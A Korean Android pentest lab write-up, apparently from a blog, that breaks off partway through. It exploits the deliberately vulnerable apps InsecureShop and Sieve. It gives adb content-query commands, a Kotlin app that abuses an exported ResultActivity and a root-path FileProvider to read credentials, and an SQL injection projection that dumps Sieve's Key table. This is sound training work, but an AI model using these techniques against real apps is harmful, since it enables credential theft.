

<h3 data-ke-size="size23">목표</h3>
<ul data-ke-list-type="disc" style="list-style-type: disc;">
<li>대상 : InsecureShop(취약 앱) / Sieve(취약 앱)</li>
<li>adb shell content query + SQL 인젝션으로 저장 데이터를 추출</li>
<li>FileProvider 경로 오용으로 내부파일에 접근</li>
</ul>
<h3 data-ke-size="size23">실습 환경</h3>
<ul data-ke-list-type="disc" style="list-style-type: disc;">
<li>Android Studio</li>
<li>jadx</li>
<li>InsecureShop : AOSP Android 11 (API 30)</li>
<li>Sieve : Pixel 4 AOSP Android 11 (API 30)</li>
<li>InsecureShop (취약 앱)</li>
<li>Sieve (취약 앱)</li>
</ul>
<h3 data-ke-size="size23">1. InsecureShop</h3>

Content Provider란, 안드로이드 4대 컴포넌트 중 하나로, 앱 간 격리된 데이터를 안전하게 공유할 수 있도록 인터페이스 역할을 해주는 컴포넌트입니다.

 

<a href="https://developer.android.com/guide/topics/providers/content-provider-basics?hl=ko" rel="noopener noreferrer" target="_blank">https://developer.android.com/guide/topics/providers/content-provider-basics?hl=ko</a>

<figure contenteditable="false" data-ke-align="alignCenter" data-ke-type="opengraph" data-og-description="Google은 AI 기술을 사용하여 콘텐츠를 사용자의 기본 언어로 번역합니다. AI 번역에는 오류가 있을 수 있습니다. 콘텐츠 제공자 기본사항 컬렉션을 사용해 정리하기 내 환경설정을 기준으로 콘텐" data-og-host="developer.android.com" data-og-image="/assets/img/and-lab/06/og-01.png" data-og-source-url="https://developer.android.com/guide/topics/providers/content-provider-basics?hl=ko" data-og-title="콘텐츠 제공자 기본사항  |  App data and files  |  Android Developers" data-og-type="website" data-og-url="https://developer.android.com/guide/topics/providers/content-provider-basics?hl=ko" id="og_1794644148481"><a data-source-url="https://developer.android.com/guide/topics/providers/content-provider-basics?hl=ko" href="https://developer.android.com/guide/topics/providers/content-provider-basics?hl=ko" rel="noopener" target="_blank">

 

콘텐츠 제공자 기본사항  |  App data and files  |  Android Developers

Google은 AI 기술을 사용하여 콘텐츠를 사용자의 기본 언어로 번역합니다. AI 번역에는 오류가 있을 수 있습니다. 콘텐츠 제공자 기본사항 컬렉션을 사용해 정리하기 내 환경설정을 기준으로 콘텐

developer.android.com

</a></figure>
<h4 data-ke-size="size20">1-1. 저장 데이터 추출</h4>

InsecureShop의 매니페스트 파일을 보겠습니다.

다음 부분을 보면 exported가 true로 설정되어 있어 다른 앱에서도 해당 contentProvider에 접근 요청이 가능합니다.

<figure class="imageblock alignCenter" data-ke-mobilestyle="widthOrigin" data-origin-height="95" data-origin-width="495"></figure>

 

InsecureShopProvider.kt 코드를 확인해보겠습니다.

<figure class="imageblock alignCenter" data-ke-mobilestyle="widthOrigin" data-origin-height="97" data-origin-width="572"></figure>

위 부분을 보면 addURI()을 통해 접근 가능한 URI를 등록하는 거 같습니다.

 

addURI()에 인자로 들어간 값들을 조합하면, 다음과 같은 URI를 만들 수 있습니다.

<pre class="bash" data-ke-language="bash" data-ke-type="codeblock" id="code_1794644492777"><code class="hljs">content://com.insecureshop.provider/insecure</code></pre>

 

위 URI로 접근했을 때 어떤 데이터가 반환되는지 다시 InsecureShopProvider.kt 코드를 보며 확인해보겠습니다.

<figure class="imageblock alignCenter" data-ke-mobilestyle="widthOrigin" data-origin-height="139" data-origin-width="557"></figure>

username과 password를 배열로 생성한 값을 다시 MatrixCursor()로 가상의 테이블 형태로 생성합니다.

위에서 생성한 이 값(Prefs.username, Prefs,password)을 addRow()로 행에 추가한 뒤 cursor를 반환합니다.

 

즉, ContentProvider에 접근 가능한 앱이라면 위에서 저장된 사용자명과 비밀번호를 조회할 수 있는 구조입니다.

 

테이블... 값 조회... 라고 하니 SQL Injection가 가능할 거 같았지만, 해당 코드에선 SQLite 쿼리를 직접 실행하지 않고, MatrixCursor를 사용합니다. 따라서, SQL Inejction은 할 수 없다고 판단했습니다.

 

adb로 저장된 민감 정보에 직접 접근해보겠습니다.

ContentProvider 조회 명령어 형태는 다음과 같습니다.

<pre class="bash" data-ke-language="bash" data-ke-type="codeblock" id="code_1794646114993"><code class="hljs">adb shell content query --uri &lt;URI&gt;</code></pre>

 

다음 명령어로 InsecureShop에서 민감 정보를 노출해보겠습니다.

<pre class="bash" data-ke-language="bash" data-ke-type="codeblock" id="code_1794646707794"><code class="hljs">adb shell content query --uri content://com.insecureshop.provider/insecure</code></pre>

 

이때 adb에서 저장된 값을 확인하기 위해선 shell 권한이 아닌 root 권한으로 바꿔줘야 합니다. adb root로 쉽게 바꿀 수 있어용

 

shell 권한으로 명령어 실행했을 때, 권한이 없어 Permission Denial 에러 발생

<figure class="imageblock alignCenter" data-filename="스크린샷 2026-11-13 002247.png" data-ke-mobilestyle="widthOrigin" data-origin-height="272" data-origin-width="1824"></figure>

 

root 권한으로 명령어 실행했을 때 사용자명과 비밀번호가 노출됩니다.

<figure class="imageblock alignCenter" data-filename="스크린샷 2026-11-13 002254.png" data-ke-mobilestyle="widthOrigin" data-origin-height="93" data-origin-width="966"></figure>

 

root 권한이므로 일반 앱보다 높은 권한을 가지고 있어 데이터 조회가 가능한 것이기 때문에 자체 제작한 테스트 앱으로 일단 권한을 가진 다른 앱이 이 데이터를 조회할 수 있는지 확인해보겠습니다.

 

뒤에 있을 FileProvider로 내부 파일 접근에 대한 실습까지 하기 위한 테스트 앱입니다.

 

테스트 앱 설정은 다음과 같습니다.

<ul data-ke-list-type="disc" style="list-style-type: disc;">
<li>패키지명 : com.test</li>
<li>minimum SDK API 버전 : 26</li>
</ul>

 

테스트 앱의 전체 코드는 다음과 같습니다.

AndroidManifest.xml

<pre class="kotlin" data-ke-language="kotlin" data-ke-type="codeblock" id="code_1794650705762"><code class="hljs">&lt;?xml version="1.0" encoding="utf-8"?&gt;
&lt;manifest xmlns:android="http://schemas.android.com/apk/res/android"&gt;

    &lt;uses-permission
        android:name="com.insecureshop.permission.READ" /&gt;

    &lt;queries&gt;
        &lt;package android:name="com.insecureshop" /&gt;
    &lt;/queries&gt;

    &lt;application
        android:allowBackup="false"
        android:label="test"
        android:theme="@android:style/Theme.Material.Light.NoActionBar"&gt;

        &lt;activity
            android:name="com.test.MainActivity"
            android:exported="true"&gt;

            &lt;intent-filter&gt;
                &lt;action android:name="android.intent.action.MAIN" /&gt;

                &lt;category android:name="android.intent.category.LAUNCHER" /&gt;
            &lt;/intent-filter&gt;

        &lt;/activity&gt;

    &lt;/application&gt;

&lt;/manifest&gt;</code></pre>

 

MainActivity.kt

<pre class="kotlin" data-ke-language="kotlin" data-ke-type="codeblock" id="code_1794650746262"><code class="hljs">package com.test

import android.app.Activity
import android.content.Intent
import android.net.Uri
import android.os.Bundle
import android.util.Log
import android.widget.Button
import android.widget.LinearLayout

class MainActivity : Activity() {

    private val TAG = "TEST"
    private val FILE_REQUEST = 100

    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)

        val layout = LinearLayout(this)
        layout.orientation = LinearLayout.VERTICAL

        val btnProvider = Button(this)
        btnProvider.text = "ContentProvider Test"
        btnProvider.setOnClickListener {
            testContentProvider()
        }

        val btnFile = Button(this)
        btnFile.text = "FileProvider Test"
        btnFile.setOnClickListener {
            testFileProvider()
        }

        layout.addView(btnProvider)
        layout.addView(btnFile)

        setContentView(layout)
    }

    private fun testContentProvider() {

        val uri = Uri.parse(
            "content://com.insecureshop.provider/insecure"
        )

        try {
            val cursor = contentResolver.query(
                uri, null, null, null, null
            )

            if (cursor == null) {
                Log.d(TAG, "Cursor is null")
                return
            }

            cursor.use {
                while (it.moveToNext()) {

                    val username = it.getString(
                        it.getColumnIndexOrThrow("username")
                    )

                    val password = it.getString(
                        it.getColumnIndexOrThrow("password")
                    )

                    Log.d(TAG, "Username: $username")
                    Log.d(TAG, "Password: $password")
                }
            }

        } catch (e: Exception) {
            Log.e(TAG, "ContentProvider Error", e)
        }
    }

    @Suppress("DEPRECATION")
    private fun testFileProvider() {

        val uri = Uri.parse(
            "content://com.insecureshop.file_provider/" +
                    "root/data/data/com.insecureshop/" +
                    "shared_prefs/Prefs.xml"
        )

        val intent = Intent()

        intent.setClassName(
            "com.insecureshop",
            "com.insecureshop.ResultActivity"
        )

        intent.data = uri

        intent.addFlags(
            Intent.FLAG_GRANT_READ_URI_PERMISSION
        )

        try {
            startActivityForResult(intent, FILE_REQUEST)
        } catch (e: Exception) {
            Log.e(TAG, "Activity Error", e)
        }
    }

    @Deprecated("Legacy Activity Result API")
    override fun onActivityResult(
        requestCode: Int,
        resultCode: Int,
        data: Intent?
    ) {
        super.onActivityResult(
            requestCode, resultCode, data
        )

        if (requestCode != FILE_REQUEST) return

        if (resultCode != RESULT_OK) {
            Log.d(TAG, "Result failed")
            return
        }

        val uri = data?.data ?: return

        try {
            val content = contentResolver
                .openInputStream(uri)
                ?.bufferedReader()
                ?.use { it.readText() }

            Log.d(TAG, "File Content: $content")

        } catch (e: Exception) {
            Log.e(TAG, "FileProvider Error", e)
        }
    }
}</code></pre>

 

테스트 앱에서 CONTENTPROVIER TEST 버튼을 눌러, 일반 앱 권한을 가진 앱이 InsecureShop 측에

com.insecureshop.permission.READ 권한 요청 후 ContentProvider에 접근해보겠습니다.

<figure class="imageblock alignCenter" data-ke-mobilestyle="widthOrigin" data-origin-height="99" data-origin-width="253"></figure>

버튼 클릭 후, LoagCat을 보면 사용자명과 비밀번호가 조회된 걸 확인할 수 잇습니다.

<figure class="imageblock alignCenter" data-ke-mobilestyle="widthOrigin" data-origin-height="49" data-origin-width="681"></figure>

 

<h4 data-ke-size="size20">1-2. FileProvider 경로 오용으로 내부 파일 접근</h4>

FileProvider란, ContentProvider를 상속하는 컴포넌트로, 앱의 파일을 다른 앱과 안전하게 공유하도록 합니다.

 

매니페스트를 보겠습니다.

exported가 false로 설정되어 있어 외부 앱에서 FileProvider에 직접 접근하는 것이 제한됩니다.

<figure class="imageblock alignCenter" data-ke-mobilestyle="widthOrigin" data-origin-height="168" data-origin-width="450"></figure>

하지만, grantUriPermissions이 true로 설정되어 있습니다. grantUriPermissions란 다른 앱에 특정 Content URI에 대한 임시 접근 권한을 부여할 수 있도록 허용하는 속성입니다.

즉, FileProvider가 외부에 직접 공개되어 있지 않더라도 조건에 맞 URI 접근 권한이 전달된다면 외부 앱에서 파일을 읽을 수 있습니다.

 

매니페스트에 선언된 FileProvider 부분을 보면 android:resource가 @xml/provider_paths로 설정되어 있는 것을 알 수 있습니다. 이는 FileProvider가 공유할 수 있는 경로의 범위를 지정한 것입니다.

그래서 provider_paths.xml을 보면 InsecureShop 앱에서 디렉터리를 파일 공유 대상으로 허용하고 있는지 알 수 있을 거라 생각했습니다.

 

provider_paths.xml는 res/xml/provider_paths.xml에 있습니다.

provider_paths.xml을 확인해보겠습니다.

<figure class="imageblock alignCenter" data-ke-mobilestyle="widthOrigin" data-origin-height="116" data-origin-width="516"></figure>

위 코드를 보면 root-path의 path가 /로 설정되어 있습니다.

일반적으로 FileProvider는 공유가 필요한 특정 디렉터리만 공유를 허용해야 하지만, 특정 디렉터리가 아닌 /(루트)로 설정되어 있습니다.

 

앞에서 FileProvider의 exported가 false로 설정되어 있어 외부 앱에서 직접 접근할 수 없다고 했습니다.

하지만, provider_paths.xml을 보면 root-path가 /로 설정되어 있어 파일 시스템 루트를 기준으로 경로를 지정할 수 있습니다.

그렇다면 외부에서 FileProvider에 접근할 수 있는 권한을 얻으면 내부 파일도 읽을 수 있을 거 같다고 생각했습니다.

 

앞서 grantUriPermissions가 true로 설정된 것도 확인했습니다. 안드로이드에선 FLAG_GRANT_READ_URI_PERMISSION이라는 플래그를 이용해 특정 URI에 대한 읽기 권한을 다른 앱에 임시로 부여할 수 있다고 합니다.

따라서, 이 권한을 전달받을 수 있는 방법이 있는지 확인해보겠습니다.

 

매니페스트에서 외부에 노출된 액티비티를 살펴보니, ResultActivity라는 액티비티가 exported가 true로 설정되어 있었습니다.

<figure class="imageblock alignCenter" data-ke-mobilestyle="widthOrigin" data-origin-height="31" data-origin-width="523"></figure>

ResultActivity.kt 코드를 보겠습니다.

<figure class="imageblock alignCenter" data-ke-mobilestyle="widthOrigin" data-origin-height="110" data-origin-width="436"></figure>

위 코드를 보면 외부에서 전달받은 인텐트를 별도 검증 과정 없이 그대로 setResult로 반환하고 있습니다.

이때 전달된 인텐트에 파일 URI와 읽기 권한 플래그가 포함되어 있으면 ResultActivity에서 해당 인텐트를 그대로 반환하며, 호출한 앱에 파일 읽기 권한까지 전달될 수 있습니다.

 

즉, Fileprovider에 직접 접근하는 대신 ResultActivity를 매개로 삼아 내부 파일에 접근 가능할 거라 생각했습니다.

 

실제로 가능한지 앞전 실습에서 만들어둔 테스트 앱으로 확인해보겠습니다.

앞에서 실습할 때 InsecureShopProvider.kt에서 사용자명과 비밀번호를 Prefs.username과 Prefs.password로 가져오는 것을 확인했었습니다.

따라서, 해당 정보가 저장되는 SharedPreferences 팡닐인 Prefs.xml을 대상으로 삼았습니다.

 

prefs.xml의 파일 경로는 다음과 같습니다.

<pre class="bash" data-ke-language="bash" data-ke-type="codeblock" id="code_1794652602079"><code class="hljs">/data/data/com.insecureshop/shared_prefs/Prefs.xml</code></pre>

위 경로를 Content URI로 표현하면 다음과 같습니다.

<pre class="bash" data-ke-language="bash" data-ke-type="codeblock" id="code_1794652633130"><code class="hljs">content://com.insecureshop.file_provider/root/data/data/com.insecureshop/shared_prefs/Prefs.xml</code></pre>

 

테스트 앱에서 FILEPROVIDER TEST 버튼을 눌러 URI 읽기 권한 플래그를 인텐트에 담아 ResultActivity로 전달해보겠습니다.

<figure class="imageblock alignCenter" data-ke-mobilestyle="widthOrigin" data-origin-height="99" data-origin-width="253"></figure>

버튼 클릭 후, 로그캣에 노출된 내용입니다.

<figure class="imageblock alignCenter" data-ke-mobilestyle="widthOrigin" data-origin-height="176" data-origin-width="1755"></figure>

 

잘린 부분이 있어서... 전체 내용은 다음과 같습니다.

<pre class="bash" data-ke-language="bash" data-ke-type="codeblock" id="code_1794652857898"><code class="hljs">&lt;map&gt;
	&lt;string name="password"&gt;!ns3csh0p&lt;/string&gt;
    &lt;string name="data"&gt;file:///data/user/0/com.insecureshop/shared_prefs/Prefs.xml&lt;/string&gt;
    &lt;string name="productList"&gt;[{&amp;quot;id&amp;quot;:1,&amp;quot;imageUrl&amp;quot;:&amp;quot;https://images.pexels.com/photos/7974/pexels-photo.jpg&amp;quot;,&amp;quot;name&amp;quot;:&amp;quot;Laptop&amp;quot;,&amp;quot;price&amp;quot;:&amp;quot;80&amp;quot;,&amp;quot;qty&amp;quot;:0,&amp;quot;rating&amp;quot;:1,&amp;quot;url&amp;quot;:&amp;quot;https://www.insecureshopapp.com&amp;quot;},{&amp;quot;id&amp;quot;:2,&amp;quot;imageUrl&amp;quot;:&amp;quot;https://images.pexels.com/photos/984619/pexels-photo-984619.jpeg&amp;quot;,&amp;quot;name&amp;quot;:&amp;quot;Hat&amp;quot;,&amp;quot;price&amp;quot;:&amp;quot;10&amp;quot;,&amp;quot;qty&amp;quot;:0,&amp;quot;rating&amp;quot;:2,&amp;quot;url&amp;quot;:&amp;quot;https://www.insecureshopapp.com&amp;quot;},{&amp;quot;id&amp;quot;:3,&amp;quot;imageUrl&amp;quot;:&amp;quot;https://images.pexels.com/photos/343720/pexels-photo-343720.jpeg&amp;quot;,&amp;quot;name&amp;quot;:&amp;quot;Sunglasses&amp;quot;,&amp;quot;price&amp;quot;:&amp;quot;10&amp;quot;,&amp;quot;qty&amp;quot;:1,&amp;quot;rating&amp;quot;:4,&amp;quot;url&amp;quot;:&amp;quot;https://www.insecureshopapp.com&amp;quot;},{&amp;quot;id&amp;quot;:4,&amp;quot;imageUrl&amp;quot;:&amp;quot;https://images.pexels.com/photos/277390/pexels-photo-277390.jpeg&amp;quot;,&amp;quot;name&amp;quot;:&amp;quot;Watch&amp;quot;,&amp;quot;price&amp;quot;:&amp;quot;30&amp;quot;,&amp;quot;qty&amp;quot;:0,&amp;quot;rating&amp;quot;:4,&amp;quot;url&amp;quot;:&amp;quot;https://www.insecureshopapp.com&amp;quot;},{&amp;quot;id&amp;quot;:5,&amp;quot;imageUrl&amp;quot;:&amp;quot;https://images.pexels.com/photos/225157/pexels-photo-225157.jpeg&amp;quot;,&amp;quot;name&amp;quot;:&amp;quot;Camera&amp;quot;,&amp;quot;price&amp;quot;:&amp;quot;40&amp;quot;,&amp;quot;qty&amp;quot;:0,&amp;quot;rating&amp;quot;:2,&amp;quot;url&amp;quot;:&amp;quot;https://www.insecureshopapp.com&amp;quot;},{&amp;quot;id&amp;quot;:6,&amp;quot;imageUrl&amp;quot;:&amp;quot;https://images.pexels.com/photos/264819/pexels-photo-264819.jpeg&amp;quot;,&amp;quot;name&amp;quot;:&amp;quot;Perfumes&amp;quot;,&amp;quot;price&amp;quot;:&amp;quot;10&amp;quot;,&amp;quot;qty&amp;quot;:0,&amp;quot;rating&amp;quot;:2,&amp;quot;url&amp;quot;:&amp;quot;https://www.insecureshopapp.com&amp;quot;},{&amp;quot;id&amp;quot;:7,&amp;quot;imageUrl&amp;quot;:&amp;quot;https://images.pexels.com/photos/532803/pexels-photo-532803.jpeg&amp;quot;,&amp;quot;name&amp;quot;:&amp;quot;Bagpack&amp;quot;,&amp;quot;price&amp;quot;:&amp;quot;20&amp;quot;,&amp;quot;qty&amp;quot;:0,&amp;quot;rating&amp;quot;:2,&amp;quot;url&amp;quot;:&amp;quot;https://www.insecureshopapp.com&amp;quot;},{&amp;quot;id&amp;quot;:8,&amp;quot;imageUrl&amp;quot;:&amp;quot;https://images.pexels.com/photos/789812/pexels-photo-789812.jpeg&amp;quot;,&amp;quot;name&amp;quot;:&amp;quot;Jacket&amp;quot;,&amp;quot;price&amp;quot;:&amp;quot;20&amp;quot;,&amp;quot;qty&amp;quot;:0,&amp;quot;rating&amp;quot;:2,&amp;quot;url&amp;quot;:&amp;quot;https://www.insecureshopapp.com&amp;quot;}]&lt;/string&gt;
    &lt;string name="username"&gt;shopuser&lt;/string&gt;
&lt;/map&gt;</code></pre>

 

외부 앱에서 Prefs.xml 파일을 정상적으로 읽을 수 있다는 걸 확인할 수 있습니다.

<h3 data-ke-size="size23">2. Sieve</h3>

Sieve는 제가 이때까지 사용했던 취약한 안드로이드 애플리케이션과 같은... 의도적으로 취약하게 제작된 안드로이드 애플리케이션입니다.

 

<a href="https://github.com/PrashantPandey119/test-apks">GitHub - PrashantPandey119/test-apks: This is a public repo of Intentionally Vulnerable Android Apps that can be used to practice Android App Pentesting · GitHub</a>

<figure contenteditable="false" data-ke-align="alignCenter" data-ke-type="opengraph" data-og-description="This is a public repo of Intentionally Vulnerable Android Apps that can be used to practice Android App Pentesting - PrashantPandey119/test-apks" data-og-host="github.com" data-og-image="/assets/img/and-lab/06/og-02.png" data-og-source-url="https://github.com/PrashantPandey119/test-apks" data-og-title="GitHub - PrashantPandey119/test-apks: This is a public repo of Intentionally Vulnerable Android Apps that can be used to practic" data-og-type="object" data-og-url="https://github.com/PrashantPandey119/test-apks" id="og_1794653072695"><a data-source-url="https://github.com/PrashantPandey119/test-apks" href="https://github.com/PrashantPandey119/test-apks" rel="noopener" target="_blank">

 

GitHub - PrashantPandey119/test-apks: This is a public repo of Intentionally Vulnerable Android Apps that can be used to practic

This is a public repo of Intentionally Vulnerable Android Apps that can be used to practice Android App Pentesting - PrashantPandey119/test-apks

github.com

</a></figure>

 

그리고 Sieve는 제가 이때까지 사용한 앱들과 아키텍처가 달라서 에뮬레이터를 새로 설치해야 했습니다... 드래그 앤 드랍으로 설치하려 했는데 안 되더군요 ㅠ.ㅠ 아키텍처 이슈였어욥.

 

확인해보면 armeabi 어쩌구 라는 폴더가 있는 걸 확인할 수 있는데 arm용 네이티브 라이브러리를 포함하고 있는 뜻...

<figure class="imageblock alignCenter" data-filename="스크린샷 2026-11-13 032818.png" data-ke-mobilestyle="widthOrigin" data-origin-height="365" data-origin-width="803"></figure>

그래서 Pixel 4 설치하고 드래그 앤 드랍으로 설치 후 실행했습니다.

<figure class="imageblock alignCenter" data-ke-mobilestyle="widthOrigin" data-origin-height="559" data-origin-width="263"></figure>

 

<h4 data-ke-size="size20">2-1. 저장 데이터 추출</h4>

먼저 매니페스트 파일을 확인해보겠습니다. (Sieve는 apk 파일 뿐이라 정적 분석 시 vscode가 아닌 jadx를 활용했습니다.)

<figure class="imageblock alignCenter" data-filename="blob" data-ke-mobilestyle="widthOrigin" data-origin-height="166" data-origin-width="549"></figure>

SQL Injection은 데이터베이스를 대상으로 한 공격이니 DBContentProvider와 관련이 있을 거라 생각했습니다.

 

jadx에서 DBContentProvider 코드를 살펴봤습니다.

<figure class="imageblock alignCenter" data-ke-mobilestyle="widthOrigin" data-origin-height="41" data-origin-width="919"></figure>

위 코드를 보면, 각 URI를 통해 저장된 키와 비밀번호를 조회하는 거 같습니다.

 

adb로 키와 비밀번호 정보에 접근해보겠습니다.

 

그 전에 임의의 값을 생성한 후 실습해보겠습니다.

Password : meow

Password Again : meow

라는 값을 생성하였습니다.

<figure class="imageblock alignCenter" data-ke-mobilestyle="widthOrigin" data-origin-height="303" data-origin-width="266"></figure>

16자 이상 입력해야 한다고 합니다.

<figure class="imageblock alignCenter" data-ke-mobilestyle="widthOrigin" data-origin-height="34" data-origin-width="229"></figure>

전부 meow로 채워줬습니다. meowmeowmeowmeow

 

PIN은 1111로 하였습니다.

<figure class="imageblock alignCenter" data-ke-mobilestyle="widthOrigin" data-origin-height="155" data-origin-width="254"></figure>

Add new Password에서 Passwords 테이블에 계정 정보를 추가해줍니다.

<figure class="imageblock alignCenter" data-ke-mobilestyle="widthOrigin" data-origin-height="227" data-origin-width="248"></figure>

Service : meow

Username : meow

Email : meow@meow.com

Password : meow

Password : meow

로 설정 후 Save를 눌러 계정 정보를 추가하였습니다.

 

다음 명령어로 비밀번호에 접근하였습니다.

<pre class="bash" data-ke-language="bash" data-ke-type="codeblock" id="code_1794654510911"><code class="hljs">adb shell content query --uri content://com.mwr.example.sieve.DBContentProvider/Passwords/</code></pre>

다음과 같이 제가 생성한 계정 정보가 password 제외하고 그대로 노출되었습니다.

<figure class="imageblock alignCenter" data-ke-mobilestyle="widthOrigin" data-origin-height="38" data-origin-width="1085"></figure>

 

다음 명령어로 키를 조회하였습니다.

<pre class="bash" data-ke-language="bash" data-ke-type="codeblock" id="code_1794654566611"><code class="hljs">adb shell content query --uri content://com.mwr.example.sieve.DBContentProvider/Keys/</code></pre>

다음과 같이 제가 입력한 password와 PIN이 노출되었습니다.

<figure class="imageblock alignCenter" data-ke-mobilestyle="widthOrigin" data-origin-height="46" data-origin-width="1051"></figure>

 

이번엔 SQL Injection을 시도하여 데이터를 조회해보겠습니다.

 

SQL 문은 다음과 같습니다.

<pre class="bash" data-ke-language="bash" data-ke-type="codeblock" id="code_1794654738899"><code class="hljs">adb shell "content query --uri content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection '* FROM Key;--'"</code></pre>

* FROM Key;--는 기존에 조회하도록 지정된 Passwords 테이블 대신 Key 테이블의 데이터를 조회하도록 SQL 구조를 변경하고, --는 SQL 주석입니다.

 

결과는 다음과 같습니다.

<figure class="imageblock alignCenter" data-ke-mobilestyle="widthOrigin" data-origin-height="52" data-origin-width="1262"></figure>

 

<h4 data-ke-size="size20">2-2. FileProvider 경로 오용으로 내부 파일 접근</h4>

매니페스트를 확인해보겠습니다.

FileBackupProvider라는 컴포넌트가 있는 걸 확인할 수 있습니다.

<figure class="imageblock alignCenter" data-filename="blob" data-ke-mobilestyle="widthOrigin" data-origin-height="100" data-origin-width="562"></figure>

adb의 content read 명령어를 통해 ContentProvider가 제공하는 파일의 내용을 읽을 수 있다고 합니다.

<a href="https://source.android.com/docs/devices/admin/multi-user-testing?hl=ko" rel="noopener noreferrer" target="_blank">https://source.android.com/docs/devices/admin/multi-user-testing?hl=ko</a>

<figure contenteditable="false" data-ke-align="alignCenter" data-ke-type="opengraph" data-og-description="2026년부터 트렁크 안정 개발 모델과 일치하고 생태계의 플랫폼 안정성을 보장하기 위해 2분기와 4분기에 AOSP에 소스 코드를 게시합니다. AOSP를 빌드하고 기여하려면 android-latest-release를 사용하세" data-og-host="source.android.com" data-og-image="" data-og-source-url="https://source.android.com/docs/devices/admin/multi-user-testing?hl=ko" data-og-title="여러 사용자 테스트  |  Android Devices  |  Android Open Source Project" data-og-type="website" data-og-url="https://source.android.com/docs/devices/admin/multi-user-testing?hl=ko" id="og_1794655126496"><a data-source-url="https://source.android.com/docs/devices/admin/multi-user-testing?hl=ko" href="https://source.android.com/docs/devices/admin/multi-user-testing?hl=ko" rel="noopener" target="_blank">

 

여러 사용자 테스트  |  Android Devices  |  Android Open Source Project

